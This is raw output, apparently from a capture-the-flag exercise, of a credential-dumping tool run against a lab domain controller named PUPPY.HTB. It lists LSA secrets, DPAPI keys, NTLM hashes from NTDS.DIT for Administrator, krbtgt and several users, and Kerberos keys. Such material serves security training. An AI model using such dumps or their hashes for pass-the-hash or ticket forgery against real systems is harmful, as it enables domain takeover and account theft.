 ```
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
PUPPY\DC$:aes256-cts-hmac-sha1-96:f4f395e28f0933cac28e02947bc68ee11b744ee32b6452dbf795d9ec85ebda45
PUPPY\DC$:aes128-cts-hmac-sha1-96:4d596c7c83be8cd71563307e496d8c30
PUPPY\DC$:des-cbc-md5:54e9a11619f8b9b5
PUPPY\DC$:plain_password_hex:84880c04e892448b6419dda6b840df09465ffda259692f44c2b3598d8f6b9bc1b0bc37b17528d18a1e10704932997674cbe6b89fd8256d5dfeaa306dc59f15c1834c9ddd333af63b249952730bf256c3afb34a9cc54320960e7b3783746ffa1a1528c77faa352a82c13d7c762c34c6f95b4bbe04f9db6164929f9df32b953f0b419fbec89e2ecb268ddcccb4324a969a1997ae3c375cc865772baa8c249589e1757c7c36a47775d2fc39e566483d0fcd48e29e6a384dc668228186a2196e48c7d1a8dbe6b52fc2e1392eb92d100c46277e1b2f43d5f2b188728a3e6e5f03582a9632da8acfc4d992899f3b64fe120e13
PUPPY\DC$:aad3b435b51404eeaad3b435b51404ee:d5047916131e6ba897f975fc5f19c8df:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xc21ea457ed3d6fd425344b3a5ca40769f14296a3
dpapi_userkey:0xcb6a80b44ae9bdd7f368fb674498d265d50e29bf
[*] NL$KM 
 0000   DD 1B A5 A0 33 E7 A0 56  1C 3F C3 F5 86 31 BA 09   ....3..V.?...1..
 0010   1A C4 D4 6A 3C 2A FA 15  26 06 3B 93 E0 66 0F 7A   ...j<*..&.;..f.z
 0020   02 9A C7 2E 52 79 C1 57  D9 0C D3 F6 17 79 EF 3F   ....Ry.W.....y.?
 0030   75 88 A3 99 C7 E0 2B 27  56 95 5C 6B 85 81 D0 ED   u.....+'V.\k....
NL$KM:dd1ba5a033e7a0561c3fc3f58631ba091ac4d46a3c2afa1526063b93e0660f7a029ac72e5279c157d90cd3f61779ef3f7588a399c7e02b2756955c6b8581d0ed
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb0edc15e49ceb4120c7bd7e6e65d75b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a4f2989236a639ef3f766e5fe1aad94a:::
PUPPY.HTB\levi.james:1103:aad3b435b51404eeaad3b435b51404ee:ff4269fdf7e4a3093995466570f435b8:::
PUPPY.HTB\ant.edwards:1104:aad3b435b51404eeaad3b435b51404ee:afac881b79a524c8e99d2b34f438058b:::
PUPPY.HTB\adam.silver:1105:aad3b435b51404eeaad3b435b51404ee:a7d7c07487ba2a4b32fb1d0953812d66:::
PUPPY.HTB\jamie.williams:1106:aad3b435b51404eeaad3b435b51404ee:bd0b8a08abd5a98a213fc8e3c7fca780:::
PUPPY.HTB\steph.cooper:1107:aad3b435b51404eeaad3b435b51404ee:b261b5f931285ce8ea01a8613f09200b:::
PUPPY.HTB\steph.cooper_adm:1111:aad3b435b51404eeaad3b435b51404ee:ccb206409049bc53502039b80f3f1173:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:d5047916131e6ba897f975fc5f19c8df:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:c0b23d37b5ad3de31aed317bf6c6fd1f338d9479def408543b85bac046c596c0
Administrator:aes128-cts-hmac-sha1-96:2c74b6df3ba6e461c9d24b5f41f56daf
Administrator:des-cbc-md5:20b9e03d6720150d
krbtgt:aes256-cts-hmac-sha1-96:f2443b54aed754917fd1ec5717483d3423849b252599e59b95dfdcc92c40fa45
krbtgt:aes128-cts-hmac-sha1-96:60aab26300cc6610a05389181e034851
krbtgt:des-cbc-md5:5876d051f78faeba
PUPPY.HTB\levi.james:aes256-cts-hmac-sha1-96:2aad43325912bdca0c831d3878f399959f7101bcbc411ce204c37d585a6417ec
PUPPY.HTB\levi.james:aes128-cts-hmac-sha1-96:661e02379737be19b5dfbe50d91c4d2f
PUPPY.HTB\levi.james:des-cbc-md5:efa8c2feb5cb6da8
PUPPY.HTB\ant.edwards:aes256-cts-hmac-sha1-96:107f81d00866d69d0ce9fd16925616f6e5389984190191e9cac127e19f9b70fc
PUPPY.HTB\ant.edwards:aes128-cts-hmac-sha1-96:a13be6182dc211e18e4c3d658a872182
PUPPY.HTB\ant.edwards:des-cbc-md5:835826ef57bafbc8
PUPPY.HTB\adam.silver:aes256-cts-hmac-sha1-96:670a9fa0ec042b57b354f0898b3c48a7c79a46cde51c1b3bce9afab118e569e6
PUPPY.HTB\adam.silver:aes128-cts-hmac-sha1-96:5d2351baba71061f5a43951462ffe726
PUPPY.HTB\adam.silver:des-cbc-md5:643d0ba43d54025e
PUPPY.HTB\jamie.williams:aes256-cts-hmac-sha1-96:aeddbae75942e03ac9bfe92a05350718b251924e33c3f59fdc183e5a175f5fb2
PUPPY.HTB\jamie.williams:aes128-cts-hmac-sha1-96:d9ac02e25df9500db67a629c3e5070a4
PUPPY.HTB\jamie.williams:des-cbc-md5:cb5840dc1667b615
```